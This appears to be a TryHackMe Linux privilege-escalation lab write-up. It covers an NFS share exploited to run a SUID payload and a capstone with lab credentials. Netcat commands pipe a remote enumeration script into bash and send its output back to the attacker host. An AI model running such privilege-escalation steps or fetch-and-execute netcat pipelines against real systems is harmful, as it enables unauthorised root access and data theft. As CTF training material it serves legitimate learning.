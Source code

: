 | Title | IP Address |
| :---- | :---- |
| LinPrivEscNFS | 10.10.203.44 |

Host:

```bash
showmount -e 10.10.203.44
mkdir /tmp/sharedfolder
sudo mount -o rw 10.10.203.44:/home/ubuntu/sharedfolder  /tmp/sharedfolder
```

Copy the above payload to `/tmp/sharedfolder/payload.c`

```bash
cd /tmp/sharedfolder
sudo gcc payload.c -o payload -w
sudo chmod +s payload
```

Target:

```bash
cd /home/ubuntu/sharedfolder
./payload
find / -type f -name flag7.txt
```

> `/home/matt/flag7.txt`

```bash
cat /home/matt/flag7.txt
```

> `THM-89384012`

## Capstone Challenge

| Title | IP Address | Username | Password |
| :---- | :---- | :---- | :---- |
| Linux Privesc Challenge | 10.10.0.209 | leonard | Penny123 |

lhost:

```bash
nc -q 1 -lvnp 80 < linpeas.sh
nc -lvnp 81 | tee lp.out
```

rhost:

```bash
nc 10.6.31.75.80 | bash -s -a | nc 10.6.31.75 81
```

Writable path:

> `/home/leonard`/scripts:/usr/sue/bin:/usr/lib64/qt-3.3/bin:`/home/leonard/perl5`/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin:/opt/puppetlabs/bin:`/home/leonard/.local`/bin:`/home/leonard`/bin
